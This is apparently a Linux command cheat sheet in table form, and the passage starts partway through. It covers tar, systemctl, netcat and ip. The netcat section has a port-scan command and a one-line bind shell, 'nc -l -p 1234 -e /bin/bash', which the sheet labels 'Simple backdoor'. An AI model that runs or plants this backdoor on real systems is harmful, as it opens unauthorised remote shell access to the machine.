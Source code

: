 | Command             | Explanation        |
| ------------------- | ------------------ |
| `tar -xvf file.tar` | Detailed unzipping |

***

## SYSTEMCTL

**Linux command to manage different services**

***

| Command                                         | Explanation          |
| ----------------------------------------------- | -------------------- |
| `sudo systemctl restart service`                | Restart service      |
| `sudo systemctl status service`                 | Check service status |
| `sudo systemctl stop service`                   | Stop service         |
| `sudo systemctl --type=service --state=running` | List active service  |

***

## NETCAT

**Universal utility for network connection in Unix and similar operating systems**

***

| Command                                               | Explanation                                                                                            |
| ----------------------------------------------------- | ------------------------------------------------------------------------------------------------------ |
| `nc host port`                                        | Connects to the host on the specified port                                                             |
| `nc -l -p port`                                       | Starts nc in listener mode on the specified port                                                       |
| `nc -z host {port-range}`                             | Basic port scanner                                                                                     |
| `nc -v host port`                                     | Get banner                                                                                             |
| `nc -l -p local_port -c 'nc remote_host remote_port'` | Configures a basic proxy where it listens for a specific local port and forwards it to a remote server |
| `nc -l -p 1234 -e /bin/bash`                          | Simple backdoor                                                                                        |

***

## IP

**Linux command to manage ІР. Older brother of ifconfig**

***

| Command      | Explanation         |
| ------------ | ------------------- |
| `ip addr`    | Shows all addresses |
| `ip -4 addr` | Shows IPv4 address  |
| `ip -6 addr` | Shows IPv6 address  |

***
